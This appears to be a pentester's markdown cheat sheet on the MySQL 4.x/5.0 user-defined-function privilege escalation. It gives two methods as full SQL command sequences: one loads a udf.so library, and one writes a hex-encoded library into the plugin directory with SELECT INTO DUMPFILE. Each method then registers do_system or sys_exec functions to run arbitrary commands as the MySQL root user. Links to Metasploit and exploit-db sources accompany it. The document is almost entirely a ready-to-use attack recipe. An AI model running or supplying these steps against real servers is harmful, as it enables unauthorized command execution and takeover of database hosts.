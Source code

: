 # mysql exploits

## MySQL 4.x/5.0 User-Defined Function Local Privilege Escalation Exploit

### Requirements

1. Mysql running as root
2. Insecure handling of files
3. Plugin directory knowledge

### .so file download

Download
from [github:metasploit-framework](https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql)

#### Method 1 (access to box):

```bash
mysql -uroot -p<PASS>
> USE mysql;
> CREATE table kashz(line blob);
> INSERT INTO kashz VALUES(load_file('/PATH/udf.so'));
> SELECT * FROM kashz INTO dumpfile '/PLUGIN-DIR/udf.so';

# create function 
> CREATE FUNCTION do_system RETURNS integer soname 'udf.so';
> SELECT * from mysql.func;

# run RCE
> SELECT do_system('RCE');
```

#### Method 2 (no access no box):

* Generate shellcode: `xxd -p udf.so | tr -d '\n' > udf.so.hex`

```bash

> SELECT @@plugin_dir;
> SET @shell = 0x<SHELLCODE-DATA>;
> SELECT binary @shell into dumpfile 'PLUGIN-DIR/udf.so';

# create function
> CREATE FUNCTION sys_exec RETURNS int soname 'udf.so';
> SELECT * FROM mysql.func;

# run RCE
> SELECT sys_exec('RCE');
```

## References

* https://www.exploit-db.com/exploits/1518
* https://github.sofianehamlaoui.fr/Security-Cheatsheets/databases/mysql/mysql-root-to-system-root/
* https://gist.github.com/p0c/8587757